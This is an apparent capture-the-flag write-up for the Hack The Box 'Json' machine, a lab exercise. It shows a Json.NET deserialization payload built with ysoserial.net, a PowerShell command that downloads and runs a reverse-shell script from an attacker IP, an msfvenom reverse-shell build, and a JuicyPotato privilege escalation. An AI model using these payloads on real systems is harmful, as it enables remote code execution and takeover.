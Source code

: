 ## JSON

https://app.hackthebox.com/machines/Json

### User Flag
`POST /api/token` is the login request. If we remove the JSON on body we receive this error:
```
{"Message":"An error has occurred.","ExceptionMessage":"Object reference not set to an instance of an object.","ExceptionType":"System.NullReferenceException","StackTrace":"   at DemoAppExplanaiton.Controllers.AccountController.Login(Usuario login) in C:\\Users\\admin\\source\\repos\\DemoAppExplanaiton\\DemoAppExplanaiton\\Controllers\\AccountController.cs:line 24\r\n   at lambda_method(Closure , Object , Object[] )\r\n   at System.Web.Http.Controllers.ReflectedHttpActionDescriptor.ActionExecutor.<>c__DisplayClass6_2.<GetExecutor>b__2(Object instance, Object[] methodParameters)\r\n   at System.Web.Http.Controllers.ReflectedHttpActionDescriptor.ExecuteAsync(HttpControllerContext controllerContext, IDictionary`2 arguments, CancellationToken cancellationToken)\r\n--- End of stack trace from previous location where exception was thrown ---\r\n   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()\r\n   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)\r\n   at System.Web.Http.Controllers.ApiControllerActionInvoker.<InvokeActionAsyncCore>d__1.MoveNext()\r\n--- End of stack trace from previous location where exception was thrown ---\r\n   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()\r\n   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)\r\n   at System.Web.Http.Controllers.ActionFilterResult.<ExecuteAsync>d__5.MoveNext()\r\n--- End of stack trace from previous location where exception was thrown ---\r\n   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()\r\n   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)\r\n   at System.Web.Http.Dispatcher.HttpControllerDispatcher.<SendAsync>d__15.MoveNext()"}
```

Credentials admin:admin works on login.

Looking through requests, /api/Account catches our eye. We have oauth cookie and Bearer that has the same value.
```
eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=

{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
```

If we change this to an invalid base64 format and put on bearer, we receive this error:
```
{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}
```

<br>

💡 One of the primary signs for insecure deserialization is having a serialized object encoded in base64 and put into a cookie.   When the Cookie goes back to the application, it deserializes it and executes its content. There no security/safety controls for checking the UNTRUSTED data.

<br>

Now that we know that the website is using Json.net, we can use [ysoserial.net](https://github.com/pwntester/ysoserial.net).  
This tool works best on a Windows Machines.

Creating a payload to ping us.
```
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "ping -c 10.10.14.5" -t

{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c ping -c 10.10.14.5']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Encode the output to base64 and replace the "Bearer" header.

We can use this to get the reverse shell, but encoded in base64 since it uses ''
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1')"

# For some reason we need to convert to UTF-16
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w 0

# Replace the previous output with this command
powershell -EncodedCommand SUVYKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuZG93bmxvYWRTdHJpbmcoJ2h0dHA6Ly8xMC4xMC4xNC41L0ludm9rZS1Qb3dlclNoZWxsVGNwLnBzMScp

# You could use two steps reverse
powershell -c Invoke-WebRequest -Uri http://10.2.117.185:8000/shell.exe -OutFile C:\tmp\reverse.ps1
powershell C:\tmp\reverse.ps1
```

### Privilege Escalation
SeImpersonatePrivilege is enabled, so we can use JuicyPotato.

```
powershell.exe -command iwr -Uri http://10.10.14.5/JuicyPotato.exe -OutFile JuicyPotato.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1337 -a x64 --platform Windows -f exe -o shell.exe

powershell.exe -command iwr -Uri http://10.10.14.5/shell.exe -OutFile shell.exe

.\JuicyPotato.exe -t * -p .\shell.exe -l 4000 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

<br>

We can use this to print the decrypted password from SyncLocation.exe.
```C#
use System.Windows.Forms;

...
private static void Main()
{
	[PUT DECRYPTION CODE]
	MessageBox.Show(userName + ":" + password);
	...
}

